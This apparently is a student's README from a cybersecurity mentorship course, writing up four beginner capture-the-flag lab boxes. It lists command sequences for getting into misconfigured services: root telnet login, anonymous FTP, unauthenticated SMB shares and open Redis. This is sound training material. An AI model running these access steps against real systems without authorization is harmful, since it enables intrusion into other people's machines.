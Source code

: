 # CyberLabMentorship
Continuing Studies for Rutgers CyberSecurity
All 4 Starting Point Boxes were pwned.
Meow Box: Consisted of simple tasks for basic enumeration. Via terminal, used basic commands like ping, telent and nmap to gain a foothold on the targeted system. Nmap scan showed an open tcp port running telnet. Slight brute forcing of the login led to gaining access as root. Looking through the directory with ‘ls’ finds the flag, which I ‘cat’ and get a hash.
  ping {ip}
  nmnap -sV -Pn {ip}
  telnet {ip}
  login: root
  ls
  cat flag.txt
Fawn Box: Focused on learning basic uses of the ‘ftp’ command in terminal and how to download with ‘get’ Nmap scanned revealed and open tcp port running ‘ftp’ I was able to anonymously login via ftp A quick look through the files and I discover the flag. Once downloaded with ‘get’, ‘cat’ is used and the has is revealed.
  ping {ip}
  nmnap -sV -Pn {ip}
  ftp {ip}
  username: anonymous
  enter ftp shell
  ls
  get flag.txt
  exit ftp shell
  ls
  cat flag.txt
Dancing Box: Allowed to practice accessing and transferring files through ‘SMB’. Nmap scanned revealed microsoft-ds a.k.a SMB running on an open port.  Anonymously, I was able to discover 4 shares on the target, with one allowing us to enter a shell with a password. Quick look through of 2 directories, and I download and hash the flag.txt. 
  ping {ip}
  nmap -sV -Pn {ip}
  smbclient -L {ip}
  smbclient \\\\{ip}\\Workshares
  enter smb shell
  ls
  cd Amy J.
  ls
  cd ../
  cd James P.
  ls
  get flag.txt
  exit shell
  cat flag.txt
Redeemer Box: Focus on databases, in this case: Redis. Redis was discovered to be running on an open tcp port. I connected to the server using the command ‘redis-cli -h {ip}’.  With commands ‘select’ and ‘keys *’, the flag was found and the hash downloaded.
  ping {ip}
  nmap -sV -Pn {ip}
  redis-cli -h {ip}
  info
  select 0
  keys *
  get flag
